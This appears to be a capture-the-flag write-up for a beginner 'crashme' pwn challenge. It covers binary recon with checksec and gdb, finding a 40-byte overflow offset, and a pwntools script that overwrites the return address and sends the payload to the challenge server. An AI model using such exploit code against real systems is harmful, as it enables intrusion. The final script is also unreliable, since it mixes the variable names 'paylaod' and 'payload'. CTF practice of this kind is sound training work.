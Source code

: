 ## Exploitation Challenges `Pwn`
### First Chall `Very Easy`
<img src="https://github.com/q5fj/Pwn/assets/88992167/1a26af55-38e2-4713-aca0-0cd186e952bb">

#### Check The Code `crashme.c`
<img src="https://github.com/q5fj/Pwn/assets/88992167/a6ba6a46-d7f9-4c70-9b83-f81922fc71b5">

#### Check The Program `file crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/1f235cef-32cc-4ee3-b9ba-332e334f1fe6">

#### Check teh security of the Program `checksec crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/83acfc89-a331-4fdb-960e-1f8598ae6eae">

#### Run The Program `./crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/53813e8d-caaa-430d-8e22-7ab453aab13c">

#### Verify The Program Using `gdb ./crashme`
<img src="https://github.com/q5fj/Pwn/assets/88992167/b1114234-bbaa-4449-acaf-34ede9bb8180">

#### Using `disassemble main`
<img src="https://github.com/q5fj/Pwn/assets/88992167/aa7e2a29-c29e-4b3f-b22a-bf7c64a7202f">

#### Create Exploitation Program `PwnTools`
```
import shutup; shutup.please()
from pwn import *

elf = context.binary = ELF('./crashme')
io = elf.process()

context.log_level = 'debug'

io = remote('0.cloud.chals.io', 17289)

offset = ? 
```
#### We Need Offset `Using gdb`
```
gef➤  pattern create 100
gef➤  r
gef➤  pattern offset faaaaaaagaaaaaaahaaaaaa
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/670dcd3d-2558-4d74-9b28-fdb2cc430669">
<img src="https://github.com/q5fj/Pwn/assets/88992167/34e6eede-609e-48f3-a13f-863309e2a634">

#### We Complete The Exploitation Program
```
import shutup; shutup.please()
from pwn import *

elf = context.binary = ELF('./crashme')
io = elf.process()

context.log_level = 'debug'

io = remote('0.cloud.chals.io', 17289)

offset = 40

paylaod = b''
paylaod += b'A' * offset
payload += p64(0x400676) #Address Function main

io.sendlineafter(b':',paylaod)
io.sendline(b'flag')
io.interactive()
```
<img src="https://github.com/q5fj/Pwn/assets/88992167/3abc20e4-1997-4a10-a2fb-03a87bcde462">








